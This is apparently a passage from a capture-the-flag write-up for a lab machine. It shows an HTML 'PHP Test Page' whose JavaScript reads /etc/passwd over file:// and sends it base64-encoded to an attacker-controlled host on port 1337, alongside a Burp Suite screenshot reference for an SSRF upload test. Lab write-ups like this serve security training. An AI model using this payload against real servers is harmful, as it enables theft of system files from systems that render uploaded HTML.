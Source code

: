 ```html
<!DOCTYPE html>
<html lang="en">
<body>
    <h1>PHP Test Page</h1>
	<script>
	    // Create an XMLHttpRequest to read a local file
	    var fileRequest = new XMLHttpRequest();
	    // Create another XMLHttpRequest to exfiltrate the file content
	    var exfiltrationRequest = new XMLHttpRequest();
	    // Attempt to read the local file /etc/passwd via file:// protocol
	    fileRequest.open("GET", "file:///etc/passwd", true);
	    fileRequest.send();
	    // When the file is successfully loaded
	    fileRequest.onload = function () {
	        // Check if the request is fully completed
	        if (fileRequest.readyState === 4) {
	            // Base64-encode the file content
	            var encodedData = btoa(this.response);
	            // Construct the exfiltration URL
	            var targetUrl = 'http://192.168.247.128:1337/?data=' + encodedData;
	            // Send the encoded data to the attacker's server
	            exfiltrationRequest.open("GET", targetUrl, true);
	            exfiltrationRequest.send();
	        }
	    };
	    // Handle error if file could not be read
	    fileRequest.onerror = function () {
	        document.write('<a>Error reading file!</a>');
	    };
	</script>
</body>
</html>
```

![Burp Suite - Upload SSRF Test 2](./assets/screenshots/vulnyx_future_burpsuite_upload_ssrf_test_2.png)
